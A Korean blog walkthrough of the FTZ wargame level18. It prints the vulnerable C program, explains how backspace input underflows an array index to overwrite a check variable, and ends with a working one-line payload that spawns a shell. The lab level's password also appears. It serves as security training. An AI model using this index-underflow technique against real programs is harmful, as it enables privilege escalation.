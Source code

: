 ```yaml
---
title: BOF/ ftz-level18
tags: ftz
---
```


18번 포스팅 시작합니다.

FTZ란 Free Training Zone의 약자로 hackerschool에서 배포하는 워게임입니다.  
총 20문제로 구성되어 있으며 각 문제를 격파하여 다음 레벨의 패스워드를 얻는 형식입니다.  
문제를 격파하고 다음 레벨의 bash를 획득하였다면 my-pass로 패스워드를 확인할 수 있습니다.  

사용 linux 명령어  
ls - 파일 내역 출력
cat - 파일 내용 확인  
cp - 파일 또는 디렉터리 복사 명령  
gdb - 디버깅 도구  

 [send me email](mailto:jewel7492@gmail.com) if you have any questions.

<!--more-->

---
### FTZ Level 18
**ID : level18**  
**PASSWD : why did you do it**         

<br />
{% highlight C linenos %}  
#include <stdio.h>
#include <sys/time.h>
#include <sys/types.h>
#include <unistd.h>
void shellout(void);
int main() {
	char string[100];
	int check;
	int x = 0;
	int count = 0;
	fd_set fds;
	printf("Enter your command: ");
	fflush(stdout);
	while (1) {
		if (count >= 100)
			printf("what are you trying to do?\n");
		if (check == 0xdeadbeef)
			shellout();
		else {
			FD_ZERO(&fds);
			FD_SET(STDIN_FILENO, &fds);

			if (select(FD_SETSIZE, &fds, NULL, NULL, NULL) >= 1)
			{
				if (FD_ISSET(fileno(stdin), &fds))
				{
					read(fileno(stdin), &x, 1);
					switch (x)
					{
					case '\r':
					case '\n':
						printf("\a");
						break;
					case 0x08:
						count--;
						printf("\b \b");
						break;
					default:
						string[count] = x;
						count++;
						break;
					}
				}
			}
		}
	}
}

void shellout(void)
{
	setreuid(3099, 3099);
	execl("/bin/sh", "sh", NULL);
}

{% endhighlight %}  
<br />
level11부터는 attackme라는 파일이 존재하며 hint는 attackme의 소스가 제공된다.  

**소스분석**  
check를 deadbeef로 변조하면 쉘을 실행시켜주는 코드이다.  
read(fileno(stdin), &x, 1); 이부분에서 x를 입력받아 switch문으로 이어진다.  
x가 0x08이라면 count가 감소되고 default에서 증가한다.  
count는 string의 index에 접근하기 위해 사용되며 string[count]에 x를 저장할 수 있다.  

**스택은 높은주소에서 낮은 주소로 자라기 때문에 check가 string보다 낮은 주소에 있으므로 일반적인 buffer over flow가 어렵다.**
0x08을 계속해서 전달한다면 count가 감소되어 string[0]보다 앞의 메모리에 접근할 수 있고 이는 check변수까지 접근이 가능하다.  
따라서 count값을 계속해서 감소시켜 check까지 접근하고 deadbeef값을 대입하면 쉘을 획득할 수 있다.  

나머지 file descriptor부분은 크게 중요하진 않은 것 같다.  

#### ftz에는 ASLR(메모리 보호기법)이 걸려있다.  
**ASLR은 프로그램을 실행할 때 마다 메모리 주소가 변경되는 메모리 보호기법**  

<br />
권한문제가 없도록 tmp디렉터리에 attackme를 복사하고 attackme의 메모리 구조를 파악하기 위해 gdb를 사용하여 intel방식으로 디스어셈블 한다.   
check에 접근하기 위해서는 check와 string사이의 거리만큼 count를 감소시켜야 한다.  
check와 string사이의 거리를 파악하기 위한 디스어셈블.  


**어셈블리 분석**  
![그림1](/assets/ftz/level18/1.PNG)  
deadbeef와 비교연산을 하고 있음을 알 수 있고 이는 check의 위치가 ebp-104임을 알 수 있다.  
(소스코드에서 check가 deadbeef와 비교연산 하기 때문에)  

<br />
![그림2](/assets/ftz/level18/2.PNG)  
ebp-252를 0x8과 비교하여 같다면 main+481로 jump하고 그렇지 않다면 main+499로 jump한다.  
소스코드 상에서 x와 0x8을 비교하는 부분이 있고 아닌경우 defalut로 가기 때문에 main+499는 switch문에서 default로 jump함을 알 수 있다.  
따라서 string의 위치는 ebp-100임을 알 수 있다.  

<br />
![그림3](/assets/ftz/level18/3.PNG)  
check와 string사이의 거리가 dummy값 없이 4Byte임을 알았으니 4개의 0x08을 대입하여 string앞의 메모리에 접근, check를 deadbeef로 변조하는  
페이로드를 작성하여 공격을 성공시킨다.  

#### 페이로드
(python -c "print '\x08'*4 + '\xef\xbe\xad\xde'"; cat) | ./attackme

